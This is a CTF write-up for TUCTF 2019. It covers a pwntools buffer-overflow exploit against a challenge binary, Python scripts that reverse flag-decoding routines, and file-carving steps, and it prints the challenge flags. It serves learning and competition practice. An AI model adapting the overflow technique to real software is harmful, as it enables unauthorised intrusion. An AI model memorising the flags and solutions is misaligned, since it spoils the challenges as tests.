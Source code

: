 ```yaml
---
layout: post
title: TUCTF 2019
---
```


Introduction
------

Should really be studying for upcoming test.  

---

Pwn
------
#### The First

Running `info functions` in gdb, we see that there is a `printFlag` function. Just overflow the buffer and jump to the function to get the flag. Exploit script is as follows, 

```
from pwn import *

payload = 'A'*24+'\xf6\x91\x04\x08'

r = remote('chal.tuctf.com', 30508)

r.recvuntil('>')
r.send(payload)
r.interactive()
```


Reversing
------
#### Faker

Decompiled in ghidra and rewrote in python. Notice the parameters printFlag is called with. Used that to get the flag. 

```
param1 = "\\PJ\\fC|)L0LTw@Yt@;Twmq0Lw|qw@w2$a@0;w|)@awmLL|Tw|)LwZL2lhhL0k"
flag=''
for i in range(len(param1)):
	flag+=chr(((((ord(param1[i])^0xf)-0x1d)*8)%0x5f)+0x20)

print flag
```

Flag: `TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}`


#### Object

Decompile in ghidra and reconstructed the program in python.

```
password=[0xfd, 0xff, 0xd3, 0xfd, 0xd9, 0xa3, 0x93, 0x35, 0x89, 0x39, 0xb1, 0x3d, 0x3b, 0xbf, 0x8d, 0x3d, 0x3b, 0x37, 0x35, 0x89, 0x3f, 0xeb, 0x35, 0x89, 0xeb, 0x91, 0xb1, 0x33, 0x3d, 0x83, 0x37, 0x89, 0x39, 0xeb, 0x3b, 0x85, 0x37, 0x3f, 0xeb, 0x99, 0x8d, 0x3d, 0x39, 0xaf, 0x00]
flag=''
for i in range(len(password)):
	c = password[i]
	flag+= chr(((c^255)^0xaa)>>1)
print flag
```

Flag: `TUCTF{c0n6r47ul4710n5_0n_br34k1n6_7h15_fl46}`




Misc
------
#### Onions

We are given an image. Naturally, the first thing I did was inspect the image exif for anything that stands out. But there's nothing special to be seen there. Tried running `foremost` on the file to extract hidden files, no result either. Running `binwalk` we get, 

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
275566        0x4346E         7-zip archive data, version 0.4

```

Since foremost couldn't extract the file, maybe `binwalk -e` can. No result... 

In that case, lets just straight up unzip the image with `7z e shrek.jpg`. That surprisingly worked... Now we just continue unzipping the archives that pop out until we get the flag. 

Flag: `TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}`


#### Super Secret

We are given an ODT file. When trying to open it, LibreOffice asks us if we want to enable macros. Hmm.. maybe there's something there. To further inspect the file, we unzip it and we see a suspicious file `flag.xml`, and in it lies our flag.

Flag: `TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}`